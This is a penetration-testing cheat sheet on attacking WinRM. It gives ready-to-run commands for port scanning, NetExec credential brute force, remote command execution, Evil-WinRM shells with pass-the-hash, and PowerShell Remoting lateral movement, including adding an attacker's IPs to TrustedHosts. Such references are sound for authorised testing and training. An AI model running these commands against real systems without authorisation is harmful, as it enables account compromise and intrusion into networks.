

**Windows Remote Management (WinRM)** is the Microsoft implementation of the WS-Management protocol. It allows administrators to remotely manage servers and execute commands. It typically uses TCP port **5985 (HTTP)** and **5986 (HTTPS)**.

**Process Name:** `wsmprovhost.exe`

<Callout type="info" title="MITRE ATT&CK Mapping">
[T1021.006 - Remote Services: Windows Remote Management](https://attack.mitre.org/techniques/T1021/006/)
</Callout>




---

## Scanning & Reconnaissance

<Callout type="info" title="Port Scanning">
Identify if the WinRM service is open and determine the service version.
```bash
nmap -sV -p5985,5986 x.x.x.x
```
</Callout>

---

## Initial Access & Execution

<Callout type="danger" title="Brute Force & Command Execution">
Using NetExec (formerly CrackMapExec) to brute force credentials and execute commands remotely via WinRM.
</Callout>

<Tabs>
  <Tab title="Brute Force">
    ```bash
    nxc winrm x.x.x.x -u administrator -p /usr/share/wordlists/unix_passwords.txt
    ```
  </Tab>
  <Tab title="Command Execution (-x)">
    *Execute CMD commands*
    ```bash
    nxc winrm x.x.x.x -u administrator -p 'pass123' -x 'whoami'
    ```
  </Tab>
  <Tab title="Command Execution (-X)">
    *Execute PowerShell commands*
    ```bash
    nxc winrm x.x.x.x -u administrator -p 'pass123' -X 'Get-Process'
    ```
  </Tab>
</Tabs>

---

## Shell Access (Evil-WinRM)

<Callout type="success" title="Evil-WinRM (The Ultimate WinRM Shell)">
A powerful Ruby-based WinRM shell with advanced features for file transfer, menu loading, and pass-the-hash.
</Callout>

<Tabs>
  <Tab title="Basic Connection">
    ```bash
    evil-winrm -u username -p 'pass123' -i x.x.x.x
    ```
  </Tab>
  <Tab title="Connection with Script Directory">
    *Loads all PowerShell scripts in the specified directory into the session for easy execution.*
    ```bash
    evil-winrm -u username -p 'pass123' -i x.x.x.x -s /usr/share/folder/
    ```
  </Tab>
  <Tab title="Pass-the-Hash (PtH) Connection">
    ```bash
    evil-winrm -u username -H NTLM_HASH -i x.x.x.x
    ```
  </Tab>
</Tabs>

---

## Lateral Movement via PowerShell Remoting (PsSession)

<Callout type="warning" title="Enabling PSRemoting (Server-Side)">
To use PowerShell Remoting, the target server must have it enabled. If you have local access to the target:
```powershell
Enable-PSRemoting -Force
winrm quickconfig
```
</Callout>

<Tabs>
  <Tab title="Workgroup / Non-Domain Environment">
    <Callout type="tip">
    If the machines are not in an Active Directory domain, you must explicitly add the attacker's IP to the Trusted Hosts list on the target before connecting.
    </Callout>
    
    <Steps>
      <Step title="Step 1: Check current Trusted Hosts">
        ```powershell
        Get-Item wsman:\localhost\client\trustedhosts
        ```
      </Step>
      <Step title="Step 2: Add IPs to Trusted Hosts">
        ```powershell
        Set-Item wsman:\localhost\client\trustedhosts -Value "192.168.10.17,192.168.10.18" -Force
        ```
      </Step>
      <Step title="Step 3: Establish Connection">
        ```powershell
        $cred = Get-Credential
        Enter-PSSession -ComputerName x.x.x.x -Authentication Negotiate -Credential $cred
        ```
      </Step>
    </Steps>
  </Tab>

  <Tab title="Domain Environment">
    In an Active Directory domain, Kerberos handles mutual trust, making the process seamless.
    
    <Tabs>
      <Tab title="Method 1: Direct Session">
        ```powershell
        Enter-PSSession -ComputerName x.x.x.x
        # Inside the session, view host process info
        [ComputerName]: PS> Get-PSHostProcessInfo
        ```
      </Tab>
      <Tab title="Method 2: Using Session Variables">
        *Useful for background tasks*
        ```powershell
        $adminsrv = New-PSSession -ComputerName mal-analysis
        Enter-PSSession -Session $adminsrv
        ```
      </Tab>
      <Tab title="Method 3: Native CMD tool (winrs)">
        ```cmd
        winrs -r:x.x.x.x -u:x.x.x.x\administrator powershell
        ```
      </Tab>
    </Tabs>
  </Tab>
</Tabs>
